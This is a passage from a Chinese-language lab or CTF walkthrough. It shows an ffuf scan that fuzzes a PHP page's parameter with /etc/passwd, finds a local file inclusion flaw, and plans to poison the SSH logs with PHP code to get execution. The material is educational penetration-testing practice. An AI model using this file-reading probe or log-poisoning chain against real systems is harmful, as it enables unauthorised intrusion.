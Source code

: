 **1.5 对这个文件进行模糊测试**

其实怎么想得到对这个文件进行模糊测试的话，我也不知道~；`fs`表示过滤大小为0的报文

```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -u http://192.168.231.156/blog-post/archives/randylogs.php?FUZZ=/etc/passwd -w wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.231.156/blog-post/archives/randylogs.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /home/kali/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

file                    [Status: 200, Size: 2832, Words: 38, Lines: 49, Duration: 20ms]
:: Progress: [220560/220560] :: Job [1/1] :: 5882 req/sec :: Duration: [0:00:32] :: Errors: 0 ::
```

包含成功！结合是一个`php`站点，可以推断出这里有一个文件包含漏洞

![image-20231119225645099](%E9%9D%B6%E5%9C%BA%E8%AE%AD%E7%BB%83.assets/image-20231119225645099.png)

**1.6 信息总结**

```
1. 开启SSH 服务
2. PHP站点能做文件包含

利用这两点，往SSH日志里面写入PHP代码并执行！
```

## 2. 外围打点
